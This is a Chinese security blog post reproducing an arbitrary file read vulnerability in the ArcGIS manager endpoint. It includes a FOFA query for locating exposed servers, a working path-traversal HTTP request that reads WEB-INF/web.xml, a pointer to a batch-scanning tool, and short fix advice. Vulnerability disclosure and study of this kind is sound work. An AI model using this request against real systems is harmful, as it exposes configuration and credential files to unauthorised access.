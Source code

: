#  【漏洞复现】ArcGIS地理空间平台manager任意文件读取漏洞   
原创 清风  白帽攻防   2024-11-26 01:07  
  
## 免责声明：请勿使用本文中提到的技术进行非法测试或行为。使用本文中提供的信息或工具所造成的任何后果和损失由使用者自行承担，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
简介  
  
ArcGIS是由美国Esri公司开发的一款地理信息系统（GIS）软件，融合了数据库技术、软件工程、人工智能、网络技术以及云计算等先进的IT技术，旨在为用户提供一整套全面的、开放的企业级GIS解决方案。它包括一个具有图形用户界面的Windows桌面应用程序，可以支持从基础到复杂的各种GIS任务，如地图制作、空间分析、数据编辑与管理、可视化以及空间数据处理等。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yu6trpdUX0fqqRV0d4YwbpUIeQOqXeQYSeQgP7wQCuqM8ywLDWfsibPVG8gvS2AKrenIvpqeFHXPpyiaMEJibcic6Q/640?wx_fmt=png&from=appmsg "")  
漏洞描述  
  
在 ArcGIS 地理信息系统的/arcgis/manager/接口处存在任意文件读取漏洞，未授权的攻击者可以利用该漏洞获取系统中的关键文件，例如数据库配置文件和系统配置文件等。  
fofa语法```
app="esri-ArcGIS"
```  
漏洞复现```
GET /arcgis/manager/3370/js/../WEB-INF/web.xml HTTP/1.1
Host: IP
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Priority: u=0, i
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yu6trpdUX0fqqRV0d4YwbpUIeQOqXeQYVlCmJY0haTcA5ZSNIjeTqASsgVRm0rqZQZARENSSawYSNWAxCH9LbQ/640?wx_fmt=png&from=appmsg "")  
  
批量检测（批量检测POC工具请在公众号知识星球获取）：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yu6trpdUX0fqqRV0d4YwbpUIeQOqXeQYzKj3G1lcKK6nB1ZmxqibLmVKw2Uzl43vXLEiczUmTzfEfaibqGhsMzK9A/640?wx_fmt=png&from=appmsg "")  
修复建议  
  
  
  
  
1、限定文件的访问范围  
  
2、验证输入路径  
  
3、标准化文件路径  
  
  
  
  
  
  
网安交流群  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/yu6trpdUX0efFOzibVic3qjn100tFgpUIh7ib8g9cKajewKFM5kXP350q21SCLvlgO6yx1tlia8VYxI4j3cv57FqFg/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
